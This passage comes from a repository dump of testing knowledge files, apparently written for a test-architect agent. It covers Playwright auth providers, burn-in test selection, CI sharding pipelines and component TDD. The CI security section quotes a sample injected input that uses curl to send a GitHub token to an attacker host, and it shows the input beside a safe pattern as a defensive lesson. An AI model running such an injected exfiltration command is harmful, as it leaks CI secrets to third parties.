      headers: { 'X-API-Key': 'invalid-key' },
    });

    expect(status).toBe(401);
    expect(body.code).toBe('INVALID_API_KEY');
  });

  test('should call downstream service with propagated auth', async ({ apiRequest }) => {
    const { status, body } = await apiRequest({
      method: 'POST',
      path: '/internal/aggregate-data',
      baseUrl: INTERNAL_SERVICE_URL,
      headers: {
        'X-API-Key': SERVICE_API_KEY,
        'X-Request-ID': `test-${Date.now()}`,
      },
      body: { sources: ['users', 'orders', 'inventory'] },
    });

    expect(status).toBe(200);
    expect(body.aggregatedFrom).toHaveLength(3);
  });
});
```

**Key Points**:

- Environment variables validated at module load with clear errors
- API key authentication (simpler than OAuth - no disk persistence needed)
- Test internal/service endpoints
- Validate auth rejection scenarios
- Correlation ID for request tracing

> **Note**: API keys are typically static secrets that don't expire, so disk persistence (auth-session) isn't needed. For rotating service tokens, use the auth-session provider pattern from Example 6.

## Custom Auth Provider Pattern

**Context**: Adapt auth-session to your authentication system (OAuth2, JWT, SAML, custom).

**Minimal provider structure**:

```typescript
import { type AuthProvider } from '@seontechnologies/playwright-utils/auth-session';

const myCustomProvider: AuthProvider = {
  getEnvironment: (options) => options.environment || 'local',

  getUserIdentifier: (options) => options.userIdentifier || 'default-user',

  extractToken: (storageState) => {
    // Extract token from your storage format
    return storageState.cookies.find((c) => c.name === 'auth_token')?.value;
  },

  extractCookies: (tokenData) => {
    // Convert token to cookies for browser context
    return [
      {
        name: 'auth_token',
        value: tokenData,
        domain: 'example.com',
        path: '/',
        httpOnly: true,
        secure: true,
      },
    ];
  },

  isTokenExpired: (storageState) => {
    // Check if token is expired
    const expiresAt = storageState.cookies.find((c) => c.name === 'expires_at');
    return Date.now() > parseInt(expiresAt?.value || '0');
  },

  manageAuthToken: async (request, options) => {
    // Main token acquisition logic
    // Return storage state with cookies/localStorage
  },
};

export default myCustomProvider;
```

## Integration with API Request

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('authenticated API call', async ({ apiRequest, authToken }) => {
  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/protected',
    headers: { Authorization: `Bearer ${authToken}` },
  });

  expect(status).toBe(200);
});
```

## Related Fragments

- `api-testing-patterns.md` - Pure API testing patterns (no browser)
- `overview.md` - Installation and fixture composition
- `api-request.md` - Authenticated API requests
- `fixtures-composition.md` - Merging auth with other utilities

## Anti-Patterns

**❌ Calling setAuthProvider after globalSetup:**

```typescript
async function globalSetup() {
  configureAuthSession(...)
  await authGlobalInit()  // Provider not set yet!
  setAuthProvider(provider)  // Too late
}
```

**✅ Register provider before init:**

```typescript
async function globalSetup() {
  authStorageInit()
  configureAuthSession(...)
  setAuthProvider(provider)  // First
  await authGlobalInit()     // Then init
}
```

**❌ Hardcoding storage paths:**

```typescript
const storageState = './auth-sessions/local/user1/storage-state.json'; // Brittle
```

**✅ Use helper functions:**

```typescript
import { getTokenFilePath } from '@seontechnologies/playwright-utils/auth-session';

const tokenPath = getTokenFilePath({
  environment: 'local',
  userIdentifier: 'user1',
  tokenFileName: 'storage-state.json',
});
```
```

## File: `src/agents/bmad-tea/resources/knowledge/burn-in.md`
```markdown
# Burn-in Test Runner

## Principle

Use smart test selection with git diff analysis to run only affected tests. Filter out irrelevant changes (configs, types, docs) and control test volume with percentage-based execution. Reduce unnecessary CI runs while maintaining reliability.

## Rationale

Playwright's `--only-changed` triggers all affected tests:

- Config file changes trigger hundreds of tests
- Type definition changes cause full suite runs
- No volume control (all or nothing)
- Slow CI pipelines

The `burn-in` utility provides:

- **Smart filtering**: Skip patterns for irrelevant files (configs, types, docs)
- **Volume control**: Run percentage of affected tests after filtering
- **Custom dependency analysis**: More accurate than Playwright's built-in
- **CI optimization**: Faster pipelines without sacrificing confidence
- **Process of elimination**: Start with all → filter irrelevant → control volume

## Pattern Examples

### Example 1: Basic Burn-in Setup

**Context**: Run burn-in on changed files compared to main branch.

**Implementation**:

```typescript
// Step 1: Create burn-in script
// playwright/scripts/burn-in-changed.ts
import { runBurnIn } from '@seontechnologies/playwright-utils/burn-in'

async function main() {
  await runBurnIn({
    configPath: 'playwright/config/.burn-in.config.ts',
    baseBranch: 'main'
  })
}

main().catch(console.error)

// Step 2: Create config
// playwright/config/.burn-in.config.ts
import type { BurnInConfig } from '@seontechnologies/playwright-utils/burn-in'

const config: BurnInConfig = {
  // Files that never trigger tests (first filter)
  skipBurnInPatterns: [
    '**/config/**',
    '**/*constants*',
    '**/*types*',
    '**/*.md',
    '**/README*'
  ],

  // Run 30% of remaining tests after skip filter
  burnInTestPercentage: 0.3,

  // Burn-in repetition
  burnIn: {
    repeatEach: 3,  // Run each test 3 times
    retries: 1      // Allow 1 retry
  }
}

export default config

// Step 3: Add package.json script
{
  "scripts": {
    "test:pw:burn-in-changed": "tsx playwright/scripts/burn-in-changed.ts"
  }
}
```

**Key Points**:

- Two-stage filtering: skip patterns, then volume control
- `skipBurnInPatterns` eliminates irrelevant files
- `burnInTestPercentage` controls test volume (0.3 = 30%)
- Custom dependency analysis finds actually affected tests

### Example 2: CI Integration

**Context**: Use burn-in in GitHub Actions for efficient CI runs.

**Implementation**:

```yaml
# .github/workflows/burn-in.yml
name: Burn-in Changed Tests

on:
  pull_request:
    branches: [main]

jobs:
  burn-in:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0 # Need git history

      - name: Setup Node
        uses: actions/setup-node@v4

      - name: Install dependencies
        run: npm ci

      - name: Run burn-in on changed tests
        run: npm run test:pw:burn-in-changed -- --base-branch=origin/main

      - name: Upload artifacts
        if: failure()
        uses: actions/upload-artifact@v4
        with:
          name: burn-in-failures
          path: test-results/
```

**Key Points**:

- `fetch-depth: 0` for full git history
- Pass `--base-branch=origin/main` for PR comparison
- Upload artifacts only on failure
- Significantly faster than full suite

### Example 3: How It Works (Process of Elimination)

**Context**: Understanding the filtering pipeline.

**Scenario:**

```
Git diff finds: 21 changed files
├─ Step 1: Skip patterns filter
│  Removed: 6 files (*.md, config/*, *types*)
│  Remaining: 15 files
│
├─ Step 2: Dependency analysis
│  Tests that import these 15 files: 45 tests
│
└─ Step 3: Volume control (30%)
   Final tests to run: 14 tests (30% of 45)

Result: Run 14 targeted tests instead of 147 with --only-changed!
```

**Key Points**:

- Three-stage pipeline: skip → analyze → control
- Custom dependency analysis (not just imports)
- Percentage applies AFTER filtering
- Dramatically reduces CI time

### Example 4: Environment-Specific Configuration

**Context**: Different settings for local vs CI environments.

**Implementation**:

```typescript
import type { BurnInConfig } from '@seontechnologies/playwright-utils/burn-in';

const config: BurnInConfig = {
  skipBurnInPatterns: ['**/config/**', '**/*types*', '**/*.md'],

  // CI runs fewer iterations, local runs more
  burnInTestPercentage: process.env.CI ? 0.2 : 0.3,

  burnIn: {
    repeatEach: process.env.CI ? 2 : 3,
    retries: process.env.CI ? 0 : 1, // No retries in CI
  },
};

export default config;
```

**Key Points**:

- `process.env.CI` for environment detection
- Lower percentage in CI (20% vs 30%)
- Fewer iterations in CI (2 vs 3)
- No retries in CI (fail fast)

### Example 5: Sharding Support

**Context**: Distribute burn-in tests across multiple CI workers.

**Implementation**:

```typescript
// burn-in-changed.ts with sharding
import { runBurnIn } from '@seontechnologies/playwright-utils/burn-in';

async function main() {
  const shardArg = process.argv.find((arg) => arg.startsWith('--shard='));

  if (shardArg) {
    process.env.PW_SHARD = shardArg.split('=')[1];
  }

  await runBurnIn({
    configPath: 'playwright/config/.burn-in.config.ts',
  });
}
```

```yaml
# GitHub Actions with sharding
jobs:
  burn-in:
    strategy:
      matrix:
        shard: [1/3, 2/3, 3/3]
    steps:
      - run: npm run test:pw:burn-in-changed -- --shard=${{ matrix.shard }}
```

**Key Points**:

- Pass `--shard=1/3` for parallel execution
- Burn-in respects Playwright sharding
- Distribute across multiple workers
- Reduces total CI time further

## Integration with CI Workflow

When setting up CI with `*ci` workflow, recommend burn-in for:

- Pull request validation
- Pre-merge checks
- Nightly builds (subset runs)

## Related Fragments

- `ci-burn-in.md` - Traditional burn-in patterns (10-iteration loops)
- `selective-testing.md` - Test selection strategies
- `overview.md` - Installation

## Anti-Patterns

**❌ Over-aggressive skip patterns:**

```typescript
skipBurnInPatterns: [
  '**/*', // Skips everything!
];
```

**✅ Targeted skip patterns:**

```typescript
skipBurnInPatterns: ['**/config/**', '**/*types*', '**/*.md', '**/*constants*'];
```

**❌ Too low percentage (false confidence):**

```typescript
burnInTestPercentage: 0.05; // Only 5% - might miss issues
```

**✅ Balanced percentage:**

```typescript
burnInTestPercentage: 0.2; // 20% in CI, provides good coverage
```
```

## File: `src/agents/bmad-tea/resources/knowledge/ci-burn-in.md`
```markdown
# CI Pipeline and Burn-In Strategy

## Principle

CI pipelines must execute tests reliably, quickly, and provide clear feedback. Burn-in testing (running changed tests multiple times) flushes out flakiness before merge. Stage jobs strategically: install/cache once, run changed specs first for fast feedback, then shard full suites with fail-fast disabled to preserve evidence.

## Rationale

CI is the quality gate for production. A poorly configured pipeline either wastes developer time (slow feedback, false positives) or ships broken code (false negatives, insufficient coverage). Burn-in testing ensures reliability by stress-testing changed code, while parallel execution and intelligent test selection optimize speed without sacrificing thoroughness.

## Security: Script Injection Prevention

**Rule:** NEVER use `${{ inputs.* }}` or user-controlled GitHub context directly in `run:` blocks. Always pass through `env:` and reference as `"$ENV_VAR"` (double-quoted).

When CI templates are extended into reusable workflows (`on: workflow_call`), manual dispatch workflows (`on: workflow_dispatch`), or composite actions, `${{ inputs.* }}` values become user-controllable. Interpolating them directly in `run:` blocks enables shell command injection.

### Vulnerable vs Safe Pattern

```yaml
# ❌ VULNERABLE — inputs.test_ids could contain: "; curl attacker.com/steal?t=$(cat $GITHUB_TOKEN)"
- name: Run tests
  run: |
    npx playwright test --grep "${{ inputs.test_ids }}"

# ✅ SAFE — env var cannot break out of shell quoting
- name: Run tests
  env:
    TEST_IDS: ${{ inputs.test_ids }}
  run: |
    npx playwright test --grep "$TEST_IDS"
```

### Unsafe Contexts (require env: intermediary)

- `${{ inputs.* }}` — workflow_call and workflow_dispatch inputs
- `${{ github.event.* }}` — treat the entire event namespace as unsafe (PR titles, issue bodies, comment bodies, label names, etc.)
- `${{ github.head_ref }}` — PR source branch name (user-controlled)

**Important:** Passing through `env:` prevents GitHub expression injection, but inputs must still be treated as DATA, not COMMANDS. Never execute an input-derived env var as a shell command (e.g., `run: $CMD` where CMD came from an input). Use fixed commands and pass inputs only as quoted arguments.

### Safe Contexts (safe from GitHub expression injection in run: blocks)

- `${{ steps.*.outputs.* }}` — pre-computed by your own code
- `${{ matrix.* }}` — defined in workflow YAML
- `${{ runner.os }}`, `${{ github.sha }}`, `${{ github.ref }}` — system-controlled
- `${{ secrets.* }}` — secret store, not user-injectable
- `${{ env.* }}` — already an env var

> **Note:** "Safe from expression injection" means these values cannot be manipulated by external actors to break out of `${{ }}` interpolation. Standard shell quoting practices still apply — always double-quote variable references in `run:` blocks.

---

## Pattern Examples

### Example 1: GitHub Actions Workflow with Parallel Execution

**Context**: Production-ready CI/CD pipeline for E2E tests with caching, parallelization, and burn-in testing.

**Implementation**:

```yaml
# .github/workflows/e2e-tests.yml
name: E2E Tests
on:
  pull_request:
  push:
    branches: [main, develop]

env:
  NODE_VERSION_FILE: '.nvmrc'
  CACHE_KEY: ${{ runner.os }}-node-${{ hashFiles('**/package-lock.json') }}

jobs:
  install-dependencies:
    name: Install & Cache Dependencies
    runs-on: ubuntu-latest
    timeout-minutes: 10
    steps:
      - name: Checkout code
        uses: actions/checkout@v4

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version-file: ${{ env.NODE_VERSION_FILE }}
          cache: 'npm'

      - name: Cache node modules
        uses: actions/cache@v4
        id: npm-cache
        with:
          path: |
            ~/.npm
            node_modules
            ~/.cache/Cypress
            ~/.cache/ms-playwright
          key: ${{ env.CACHE_KEY }}
          restore-keys: |
            ${{ runner.os }}-node-

      - name: Install dependencies
        if: steps.npm-cache.outputs.cache-hit != 'true'
        run: npm ci --prefer-offline --no-audit

      - name: Install Playwright browsers
        if: steps.npm-cache.outputs.cache-hit != 'true'
        run: npx playwright install --with-deps chromium

  test-changed-specs:
    name: Test Changed Specs First (Burn-In)
    needs: install-dependencies
    runs-on: ubuntu-latest
    timeout-minutes: 15
    steps:
      - name: Checkout code
        uses: actions/checkout@v4
        with:
          fetch-depth: 0 # Full history for accurate diff

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version-file: ${{ env.NODE_VERSION_FILE }}
          cache: 'npm'

      - name: Restore dependencies
        uses: actions/cache@v4
        with:
          path: |
            ~/.npm
            node_modules
            ~/.cache/ms-playwright
          key: ${{ env.CACHE_KEY }}

      - name: Detect changed test files
        id: changed-tests
        run: |
          CHANGED_SPECS=$(git diff --name-only origin/main...HEAD | grep -E '\.(spec|test)\.(ts|js|tsx|jsx)$' || echo "")
          echo "changed_specs=${CHANGED_SPECS}" >> $GITHUB_OUTPUT
          echo "Changed specs: ${CHANGED_SPECS}"

      - name: Run burn-in on changed specs (10 iterations)
        if: steps.changed-tests.outputs.changed_specs != ''
        run: |
          SPECS="${{ steps.changed-tests.outputs.changed_specs }}"
          echo "Running burn-in: 10 iterations on changed specs"
          for i in {1..10}; do
            echo "Burn-in iteration $i/10"
            npm run test -- $SPECS || {
              echo "❌ Burn-in failed on iteration $i"
              exit 1
            }
          done
          echo "✅ Burn-in passed - 10/10 successful runs"

      - name: Upload artifacts on failure
        if: failure()
        uses: actions/upload-artifact@v4
        with:
          name: burn-in-failure-artifacts
          path: |
            test-results/
            playwright-report/
            screenshots/
          retention-days: 7

  test-e2e-sharded:
    name: E2E Tests (Shard ${{ matrix.shard }}/${{ strategy.job-total }})
    needs: [install-dependencies, test-changed-specs]
    runs-on: ubuntu-latest
    timeout-minutes: 30
    strategy:
      fail-fast: false # Run all shards even if one fails
      matrix:
        shard: [1, 2, 3, 4]
    steps:
      - name: Checkout code
        uses: actions/checkout@v4

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version-file: ${{ env.NODE_VERSION_FILE }}
          cache: 'npm'

      - name: Restore dependencies
        uses: actions/cache@v4
        with:
          path: |
            ~/.npm
            node_modules
            ~/.cache/ms-playwright
          key: ${{ env.CACHE_KEY }}

      - name: Run E2E tests (shard ${{ matrix.shard }})
        run: npm run test:e2e -- --shard=${{ matrix.shard }}/4
        env:
          TEST_ENV: staging
          CI: true

      - name: Upload test results
        if: always()
        uses: actions/upload-artifact@v4
        with:
          name: test-results-shard-${{ matrix.shard }}
          path: |
            test-results/
            playwright-report/
          retention-days: 30

      - name: Upload JUnit report
        if: always()
        uses: actions/upload-artifact@v4
        with:
          name: junit-results-shard-${{ matrix.shard }}
          path: test-results/junit.xml
          retention-days: 30

  merge-test-results:
    name: Merge Test Results & Generate Report
    needs: test-e2e-sharded
    runs-on: ubuntu-latest
    if: always()
    steps:
      - name: Download all shard results
        uses: actions/download-artifact@v4
        with:
          pattern: test-results-shard-*
          path: all-results/

      - name: Merge HTML reports
        run: |
          npx playwright merge-reports --reporter=html all-results/
          echo "Merged report available in playwright-report/"

      - name: Upload merged report
        uses: actions/upload-artifact@v4
        with:
          name: merged-playwright-report
          path: playwright-report/
          retention-days: 30

      - name: Comment PR with results
        if: github.event_name == 'pull_request'
        uses: daun/playwright-report-comment@v3
        with:
          report-path: playwright-report/
```

**Key Points**:

- **Install once, reuse everywhere**: Dependencies cached across all jobs
- **Burn-in first**: Changed specs run 10x before full suite
- **Fail-fast disabled**: All shards run to completion for full evidence
- **Parallel execution**: 4 shards cut execution time by ~75%
- **Artifact retention**: 30 days for reports, 7 days for failure debugging

---

### Example 2: Burn-In Loop Pattern (Standalone Script)

**Context**: Reusable bash script for burn-in testing changed specs locally or in CI.

**Implementation**:

```bash
#!/bin/bash
# scripts/burn-in-changed.sh
# Usage: ./scripts/burn-in-changed.sh [iterations] [base-branch]

set -e  # Exit on error

# Configuration
ITERATIONS=${1:-10}
BASE_BRANCH=${2:-main}
SPEC_PATTERN='\.(spec|test)\.(ts|js|tsx|jsx)$'

echo "🔥 Burn-In Test Runner"
echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
echo "Iterations: $ITERATIONS"
echo "Base branch: $BASE_BRANCH"
echo ""

# Detect changed test files
echo "📋 Detecting changed test files..."
CHANGED_SPECS=$(git diff --name-only $BASE_BRANCH...HEAD | grep -E "$SPEC_PATTERN" || echo "")

if [ -z "$CHANGED_SPECS" ]; then
  echo "✅ No test files changed. Skipping burn-in."
  exit 0
fi

echo "Changed test files:"
echo "$CHANGED_SPECS" | sed 's/^/  - /'
echo ""

# Count specs
SPEC_COUNT=$(echo "$CHANGED_SPECS" | wc -l | xargs)
echo "Running burn-in on $SPEC_COUNT test file(s)..."
echo ""

# Burn-in loop
FAILURES=()
for i in $(seq 1 $ITERATIONS); do
  echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
  echo "🔄 Iteration $i/$ITERATIONS"
  echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"

  # Run tests with explicit file list
  if npm run test -- $CHANGED_SPECS 2>&1 | tee "burn-in-log-$i.txt"; then
    echo "✅ Iteration $i passed"
  else
    echo "❌ Iteration $i failed"
    FAILURES+=($i)

    # Save failure artifacts
    mkdir -p burn-in-failures/iteration-$i
    cp -r test-results/ burn-in-failures/iteration-$i/ 2>/dev/null || true
    cp -r screenshots/ burn-in-failures/iteration-$i/ 2>/dev/null || true

    echo ""
    echo "🛑 BURN-IN FAILED on iteration $i"
    echo "Failure artifacts saved to: burn-in-failures/iteration-$i/"
    echo "Logs saved to: burn-in-log-$i.txt"
    echo ""
    exit 1
  fi

  echo ""
done

# Success summary
echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
echo "🎉 BURN-IN PASSED"
echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
echo "All $ITERATIONS iterations passed for $SPEC_COUNT test file(s)"
echo "Changed specs are stable and ready to merge."
echo ""

# Cleanup logs
rm -f burn-in-log-*.txt

exit 0
```

**Usage**:

```bash
# Run locally with default settings (10 iterations, compare to main)
./scripts/burn-in-changed.sh

# Custom iterations and base branch
./scripts/burn-in-changed.sh 20 develop

# Add to package.json
{
  "scripts": {
    "test:burn-in": "bash scripts/burn-in-changed.sh",
    "test:burn-in:strict": "bash scripts/burn-in-changed.sh 20"
  }
}
```

**Key Points**:

- **Exit on first failure**: Flaky tests caught immediately
- **Failure artifacts**: Saved per-iteration for debugging
- **Flexible configuration**: Iterations and base branch customizable
- **CI/local parity**: Same script runs in both environments
- **Clear output**: Visual feedback on progress and results

---

### Example 3: Shard Orchestration with Result Aggregation

**Context**: Advanced sharding strategy for large test suites with intelligent result merging.

**Implementation**:

```javascript
// scripts/run-sharded-tests.js
const { spawn } = require('child_process');
const fs = require('fs');
const path = require('path');

/**
 * Run tests across multiple shards and aggregate results
 * Usage: node scripts/run-sharded-tests.js --shards=4 --env=staging
 */

const SHARD_COUNT = parseInt(process.env.SHARD_COUNT || '4');
const TEST_ENV = process.env.TEST_ENV || 'local';
const RESULTS_DIR = path.join(__dirname, '../test-results');

console.log(`🚀 Running tests across ${SHARD_COUNT} shards`);
console.log(`Environment: ${TEST_ENV}`);
console.log('━'.repeat(50));

// Ensure results directory exists
if (!fs.existsSync(RESULTS_DIR)) {
  fs.mkdirSync(RESULTS_DIR, { recursive: true });
}

/**
 * Run a single shard
 */
function runShard(shardIndex) {
  return new Promise((resolve, reject) => {
    const shardId = `${shardIndex}/${SHARD_COUNT}`;
    console.log(`\n📦 Starting shard ${shardId}...`);

    const child = spawn('npx', ['playwright', 'test', `--shard=${shardId}`, '--reporter=json'], {
      env: { ...process.env, TEST_ENV, SHARD_INDEX: shardIndex },
      stdio: 'pipe',
    });

    let stdout = '';
    let stderr = '';

    child.stdout.on('data', (data) => {
      stdout += data.toString();
      process.stdout.write(data);
    });

    child.stderr.on('data', (data) => {
      stderr += data.toString();
      process.stderr.write(data);
    });

    child.on('close', (code) => {
      // Save shard results
      const resultFile = path.join(RESULTS_DIR, `shard-${shardIndex}.json`);
      try {
        const result = JSON.parse(stdout);
        fs.writeFileSync(resultFile, JSON.stringify(result, null, 2));
        console.log(`✅ Shard ${shardId} completed (exit code: ${code})`);
        resolve({ shardIndex, code, result });
      } catch (error) {
        console.error(`❌ Shard ${shardId} failed to parse results:`, error.message);
        reject({ shardIndex, code, error });
      }
    });

    child.on('error', (error) => {
      console.error(`❌ Shard ${shardId} process error:`, error.message);
      reject({ shardIndex, error });
    });
  });
}

/**
 * Aggregate results from all shards
 */
function aggregateResults() {
  console.log('\n📊 Aggregating results from all shards...');

  const shardResults = [];
  let totalTests = 0;
  let totalPassed = 0;
  let totalFailed = 0;
  let totalSkipped = 0;
  let totalFlaky = 0;

  for (let i = 1; i <= SHARD_COUNT; i++) {
    const resultFile = path.join(RESULTS_DIR, `shard-${i}.json`);
    if (fs.existsSync(resultFile)) {
      const result = JSON.parse(fs.readFileSync(resultFile, 'utf8'));
      shardResults.push(result);

      // Aggregate stats
      totalTests += result.stats?.expected || 0;
      totalPassed += result.stats?.expected || 0;
      totalFailed += result.stats?.unexpected || 0;
      totalSkipped += result.stats?.skipped || 0;
      totalFlaky += result.stats?.flaky || 0;
    }
  }

  const summary = {
    totalShards: SHARD_COUNT,
    environment: TEST_ENV,
    totalTests,
    passed: totalPassed,
    failed: totalFailed,
    skipped: totalSkipped,
    flaky: totalFlaky,
    duration: shardResults.reduce((acc, r) => acc + (r.duration || 0), 0),
    timestamp: new Date().toISOString(),
  };

  // Save aggregated summary
  fs.writeFileSync(path.join(RESULTS_DIR, 'summary.json'), JSON.stringify(summary, null, 2));

  console.log('\n━'.repeat(50));
  console.log('📈 Test Results Summary');
  console.log('━'.repeat(50));
  console.log(`Total tests:    ${totalTests}`);
  console.log(`✅ Passed:      ${totalPassed}`);
  console.log(`❌ Failed:      ${totalFailed}`);
  console.log(`⏭️  Skipped:     ${totalSkipped}`);
  console.log(`⚠️  Flaky:       ${totalFlaky}`);
  console.log(`⏱️  Duration:    ${(summary.duration / 1000).toFixed(2)}s`);
  console.log('━'.repeat(50));

  return summary;
}

/**
 * Main execution
 */
async function main() {
  const startTime = Date.now();
  const shardPromises = [];

  // Run all shards in parallel
  for (let i = 1; i <= SHARD_COUNT; i++) {
    shardPromises.push(runShard(i));
  }

  try {
    await Promise.allSettled(shardPromises);
  } catch (error) {
    console.error('❌ One or more shards failed:', error);
  }

  // Aggregate results
  const summary = aggregateResults();

  const totalTime = ((Date.now() - startTime) / 1000).toFixed(2);
  console.log(`\n⏱️  Total execution time: ${totalTime}s`);

  // Exit with failure if any tests failed
  if (summary.failed > 0) {
    console.error('\n❌ Test suite failed');
    process.exit(1);
  }

  console.log('\n✅ All tests passed');
  process.exit(0);
}

main().catch((error) => {
  console.error('Fatal error:', error);
  process.exit(1);
});
```

**package.json integration**:

```json
{
  "scripts": {
    "test:sharded": "node scripts/run-sharded-tests.js",
    "test:sharded:ci": "SHARD_COUNT=8 TEST_ENV=staging node scripts/run-sharded-tests.js"
  }
}
```

**Key Points**:

- **Parallel shard execution**: All shards run simultaneously
- **Result aggregation**: Unified summary across shards
- **Failure detection**: Exit code reflects overall test status
- **Artifact preservation**: Individual shard results saved for debugging
- **CI/local compatibility**: Same script works in both environments

---

### Example 4: Selective Test Execution (Changed Files + Tags)

**Context**: Optimize CI by running only relevant tests based on file changes and tags.

**Implementation**:

```bash
#!/bin/bash
# scripts/selective-test-runner.sh
# Intelligent test selection based on changed files and test tags

set -e

BASE_BRANCH=${BASE_BRANCH:-main}
TEST_ENV=${TEST_ENV:-local}

echo "🎯 Selective Test Runner"
echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
echo "Base branch: $BASE_BRANCH"
echo "Environment: $TEST_ENV"
echo ""

# Detect changed files (all types, not just tests)
CHANGED_FILES=$(git diff --name-only $BASE_BRANCH...HEAD)

if [ -z "$CHANGED_FILES" ]; then
  echo "✅ No files changed. Skipping tests."
  exit 0
fi

echo "Changed files:"
echo "$CHANGED_FILES" | sed 's/^/  - /'
echo ""

# Determine test strategy based on changes
run_smoke_only=false
run_all_tests=false
affected_specs=""

# Critical files = run all tests
if echo "$CHANGED_FILES" | grep -qE '(package\.json|package-lock\.json|playwright\.config|cypress\.config|\.github/workflows)'; then
  echo "⚠️  Critical configuration files changed. Running ALL tests."
  run_all_tests=true

# Auth/security changes = run all auth + smoke tests
elif echo "$CHANGED_FILES" | grep -qE '(auth|login|signup|security)'; then
  echo "🔒 Auth/security files changed. Running auth + smoke tests."
  npm run test -- --grep "@auth|@smoke"
  exit $?

# API changes = run integration + smoke tests
elif echo "$CHANGED_FILES" | grep -qE '(api|service|controller)'; then
  echo "🔌 API files changed. Running integration + smoke tests."
  npm run test -- --grep "@integration|@smoke"
  exit $?

# UI component changes = run related component tests
elif echo "$CHANGED_FILES" | grep -qE '\.(tsx|jsx|vue)$'; then
  echo "🎨 UI components changed. Running component + smoke tests."

  # Extract component names and find related tests
  components=$(echo "$CHANGED_FILES" | grep -E '\.(tsx|jsx|vue)$' | xargs -I {} basename {} | sed 's/\.[^.]*$//')
  for component in $components; do
    # Find tests matching component name
    affected_specs+=$(find tests -name "*${component}*" -type f) || true
  done

  if [ -n "$affected_specs" ]; then
    echo "Running tests for: $affected_specs"
    npm run test -- $affected_specs --grep "@smoke"
  else
    echo "No specific tests found. Running smoke tests only."
    npm run test -- --grep "@smoke"
  fi
  exit $?

# Documentation/config only = run smoke tests
elif echo "$CHANGED_FILES" | grep -qE '\.(md|txt|json|yml|yaml)$'; then
  echo "📝 Documentation/config files changed. Running smoke tests only."
  run_smoke_only=true
else
  echo "⚙️  Other files changed. Running smoke tests."
  run_smoke_only=true
fi

# Execute selected strategy
if [ "$run_all_tests" = true ]; then
  echo ""
  echo "Running full test suite..."
  npm run test
elif [ "$run_smoke_only" = true ]; then
  echo ""
  echo "Running smoke tests..."
  npm run test -- --grep "@smoke"
fi
```

**Usage in GitHub Actions**:

```yaml
# .github/workflows/selective-tests.yml
name: Selective Tests
on: pull_request

jobs:
  selective-tests:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0

      - name: Run selective tests
        run: bash scripts/selective-test-runner.sh
        env:
          BASE_BRANCH: ${{ github.base_ref }}
          TEST_ENV: staging
```

**Key Points**:

- **Intelligent routing**: Tests selected based on changed file types
- **Tag-based filtering**: Use @smoke, @auth, @integration tags
- **Fast feedback**: Only relevant tests run on most PRs
- **Safety net**: Critical changes trigger full suite
- **Component mapping**: UI changes run related component tests

---

## CI Configuration Checklist

Before deploying your CI pipeline, verify:

- [ ] **Caching strategy**: node_modules, npm cache, browser binaries cached
- [ ] **Timeout budgets**: Each job has reasonable timeout (10-30 min)
- [ ] **Artifact retention**: 30 days for reports, 7 days for failure artifacts
- [ ] **Parallelization**: Matrix strategy uses fail-fast: false
- [ ] **Burn-in enabled**: Changed specs run 5-10x before merge
- [ ] **wait-on app startup**: CI waits for app (wait-on: '<http://localhost:3000>')
- [ ] **Secrets documented**: README lists required secrets (API keys, tokens)
- [ ] **Local parity**: CI scripts runnable locally (npm run test:ci)

## Integration Points

- Used in workflows: `*ci` (CI/CD pipeline setup)
- Related fragments: `selective-testing.md`, `playwright-config.md`, `test-quality.md`
- CI tools: GitHub Actions, GitLab CI, CircleCI, Jenkins

_Source: Murat CI/CD strategy blog, Playwright/Cypress workflow examples, enterprise production pipelines_
```

## File: `src/agents/bmad-tea/resources/knowledge/component-tdd.md`
```markdown
# Component Test-Driven Development Loop

## Principle

Start every UI change with a failing component test (`cy.mount`, Playwright component test, or RTL `render`). Follow the Red-Green-Refactor cycle: write a failing test (red), make it pass with minimal code (green), then improve the implementation (refactor). Ship only after the cycle completes. Keep component tests under 100 lines, isolated with fresh providers per test, and validate accessibility alongside functionality.

## Rationale

Component TDD provides immediate feedback during development. Failing tests (red) clarify requirements before writing code. Minimal implementations (green) prevent over-engineering. Refactoring with passing tests ensures changes don't break functionality. Isolated tests with fresh providers prevent state bleed in parallel runs. Accessibility assertions catch usability issues early. Visual debugging (Cypress runner, Storybook, Playwright trace viewer) accelerates diagnosis when tests fail.

## Pattern Examples

### Example 1: Red-Green-Refactor Loop

**Context**: When building a new component, start with a failing test that describes the desired behavior. Implement just enough to pass, then refactor for quality.

**Implementation**:

```typescript
// Step 1: RED - Write failing test
// Button.cy.tsx (Cypress Component Test)
import { Button } from './Button';

describe('Button Component', () => {
  it('should render with label', () => {
    cy.mount(<Button label="Click Me" />);
    cy.contains('Click Me').should('be.visible');
  });

  it('should call onClick when clicked', () => {
    const onClickSpy = cy.stub().as('onClick');
    cy.mount(<Button label="Submit" onClick={onClickSpy} />);

    cy.get('button').click();
    cy.get('@onClick').should('have.been.calledOnce');
  });
});

// Run test: FAILS - Button component doesn't exist yet
// Error: "Cannot find module './Button'"

// Step 2: GREEN - Minimal implementation
// Button.tsx
type ButtonProps = {
  label: string;
  onClick?: () => void;
};

export const Button = ({ label, onClick }: ButtonProps) => {
  return <button onClick={onClick}>{label}</button>;
};

// Run test: PASSES - Component renders and handles clicks

// Step 3: REFACTOR - Improve implementation
// Add disabled state, loading state, variants
type ButtonProps = {
  label: string;
  onClick?: () => void;
  disabled?: boolean;
  loading?: boolean;
  variant?: 'primary' | 'secondary' | 'danger';
};

export const Button = ({
  label,
  onClick,
  disabled = false,
  loading = false,
  variant = 'primary'
}: ButtonProps) => {
  return (
    <button
      onClick={onClick}
      disabled={disabled || loading}
      className={`btn btn-${variant}`}
